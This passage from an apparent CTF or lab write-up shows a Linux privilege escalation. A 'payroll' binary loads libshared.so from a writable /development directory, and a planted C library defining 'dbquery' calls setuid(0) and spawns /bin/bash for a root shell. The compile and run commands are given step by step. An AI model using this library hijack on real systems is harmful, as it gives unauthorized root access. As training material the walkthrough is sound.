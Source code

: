 This tells us the binary **prefers** libraries from `/development` over system ones. So if we place a fake `libshared.so` there, the binary will use it.


## 🧨 Exploiting the Vulnerability

### Step 1: Identify the Missing Function

Run the binary:
```bash
./payroll
```

Error:
```
symbol lookup error: undefined symbol: dbquery
```

This means the binary expects a function called `dbquery` inside `libshared.so`.

### Step 2: Create a Malicious Library

Write a C file that defines `dbquery` and gives us a root shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void dbquery() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```

Compile it as a shared object:
```bash
gcc -fPIC -shared -o /development/libshared.so dbquery.c
```

- `-fPIC`: generates position-independent code.
- `-shared`: creates a shared library.
- `-o`: names the output file.

### Step 3: Run the Vulnerable Binary

Now execute the binary again:
```bash
./payroll
```

Since it loads our malicious `libshared.so`, it will call `dbquery()` — which gives us a **root shell**.

---

